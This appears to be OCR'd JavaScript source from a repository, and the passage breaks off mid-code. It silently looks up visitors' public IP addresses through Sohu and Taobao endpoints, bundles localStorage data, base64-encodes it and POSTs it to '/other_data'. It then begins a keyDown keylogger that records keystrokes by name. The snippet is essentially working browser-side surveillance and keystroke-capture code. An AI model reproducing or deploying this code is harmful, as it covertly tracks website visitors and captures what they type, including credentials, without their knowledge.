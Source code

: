 ```javascript
    localStorage.setItem('yy', JSON.stringify(res));
  },
  error: function error(_error) {
    console.log(_error);
  }
});

ajax({
  url: 'https://v2.sohu.com/api/pc-home-city/home-data/ip2location',
  jsonp: 'jQuery1124018281896477578718_1606458878259',
  data: {'_': '1606458878259'},
  success: function success(res) {
    localStorage.setItem('sohu_public_ip', JSON.stringify(res));
  },
  error: function error(_error) {
    console.log(_error);
  }
});


function send_data(types) {
  var data = {};
  data["public_ip"] = {};

  try {
    data["public_ip"]['taobao_public_ip'] = JSON.parse(localStorage.getItem('pub_ip'))['ip'];
  } catch (e) {
    data["public_ip"]['taobao_public_ip'] = "taobaoip获取接口可能已失效或者未设置，请尽快检查";
  } finally {}
  try {
        data["public_ip"]["sohu_public_ip"] = JSON.parse(localStorage.getItem('sohu_public_ip'))["data"]["ip"];
      } catch (e) {
        data["public_ip"]['sohu_public_ip'] = "sohu_ip获取接口可能已失效或者未设置，请尽快检查";
      } finally {}

  types.forEach(function (item) {
  if (item.endsWith("ip")){

  }else{
      data[item] = JSON.parse(localStorage.getItem(item));
    }
  });
  // var jp = new FormData();
  // jp.append("jInfo", window.btoa(unescape(encodeURIComponent(JSON.stringify(data)))));
  fetch('/other_data', {
    method: 'POST',
    cache: "no-cache",
    body: window.btoa(unescape(encodeURIComponent(JSON.stringify(data))))
  });
}

var logger = "";

var keyDown = function keyDown(e) {
  var e = e || event;
  var currKey = e.keyCode || e.which || e.charCode;
  var keyName = ""
  if (currKey > 7 && currKey < 32 || currKey > 31 && currKey < 47) {
    switch (currKey) {
      case 8:
        keyName = "[退格]";
        break;
```